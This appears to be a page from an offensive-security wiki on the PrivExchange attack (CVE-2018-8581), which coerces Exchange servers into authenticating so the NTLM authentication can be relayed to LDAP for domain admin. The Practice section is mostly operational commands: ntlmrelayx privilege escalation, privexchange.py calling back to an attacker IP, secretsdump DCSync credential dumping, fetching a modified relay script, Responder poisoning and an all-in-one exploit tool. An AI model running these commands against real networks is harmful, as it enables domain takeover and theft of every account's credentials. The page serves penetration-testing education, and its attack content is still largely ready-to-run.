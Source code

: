 ```yaml
---
description: CVE-2018-8581
---
```


# PrivExchange

## Theory

PrivExchange relay on the [PushSubscription coerced authentication](../mitm-and-coerced-authentications/pushsubscription-abuse.md), PushSubscription is an API on Exchange Web Services that allows to subscribe to push notifications. Attackers abuse it to make Exchange servers authenticate to a target of their choosing. **The coerced authentication is made over HTTP**, which is particularly powerful when doing [NTLM relay](../ntlm/relay.md) ([because of the Session Signing and MIC mitigations](../ntlm/relay.md#mic-message-integrity-code)).&#x20;

As Exchange servers usually have high privileges in a domain (i.e. `WriteDacl`, see [Abusing ACLs](../dacl/)), the forced authentication can then be relayed and abused to obtain domain admin privileges (see [NTLM Relay](../ntlm/relay.md) and [Kerberos Unconstrained Delegations](../kerberos/delegations/#unconstrained-delegations-kud)).

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

## Practice

{% hint style="warning" %}
On February 12th 2019, Microsoft released updates for Exchange which resolved

* the coerced authentication issue
* the fact that Exchange servers had overkill permissions leading attacker to a full domain compromission.
{% endhint %}

{% tabs %}
{% tab title="Exploit - with creds" %}
First, start the NTLM relay that will escalate privileges

```bash
# NTLM relaying is used to relay connexion and give DCSync privileges
ntlmrelayx.py -t ldap://$DC --escalate-user $USER_TO_ESCALATE
```

Using [PrivExchange](https://github.com/dirkjanm/privexchange/), we can log in on Exchange Web Services and call the API. The user must have a mailbox to make the coerced authentication.

```bash
privexchange.py -d $DOMAIN -u '$DOMAIN_USER' -p '$PASSWORD' -ah $ATTACKER_IP $EXCHANGE_SERVER_TARGET
```

We can now dump domain credentials throught DCSync

```bash
secretsdump.py $DOMAIN/$USER_TO_ESCALATE@$DC -just-dc
```
{% endtab %}

{% tab title="Exploit - without creds" %}
If you don't have any credentials, it is still possible to [relay the authentication](../ntlm/relay.md) to make the API call. The [httpattack.py](https://github.com/dirkjanm/PrivExchange/blob/master/httpattack.py) script can be used with ntlmrelayx.py to perform this attack. It uses NTLM Relaying with LLMNR / NBT-NS to relay captured credentials over the network.

Using the modified httpattack.py, we can use ntlmrelayx to perform this attack.

```bash
#Backup the old httpattack.py
cd /PATH/TO/impacket/impacket/examples/ntlmrelayx/attacks/
mv httpattack.py httpattack.py.old

#Replace it
wget https://raw.githubusercontent.com/dirkjanm/PrivExchange/master/httpattack.py
#Edit the attacker_url parameter (the host to which Exchange will authenticate)
sed -i 's/attacker_url = .*$/attacker_url = "$ATTACKER_URL"/' httpattack.py

#Build the env
cd /PATH/TO/impacket
virtualenv venv && source venv/bin/activate
pip install .

#Start relay
ntlmrelayx.py -t https://exchange.server.EWS/Exchange.asmx
```

We can now use LLMNR/NBT-NS/mDNS poisoning with responder, to capture credentials and relay them:

```bash
responder -i eth0
```
{% endtab %}

{% tab title="Exploit - Auto" %}
[Exchange2domain](https://github.com/Ridter/Exchange2domain) is a all in One tools of Privexchange exploit. You only need to open the web server port, so no high privileges are required.

```bash
python2.7 Exchange2domain.py -ah attackterip -ap listenport -u user -p password -d domain.com -th DCip MailServerip
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/" %}
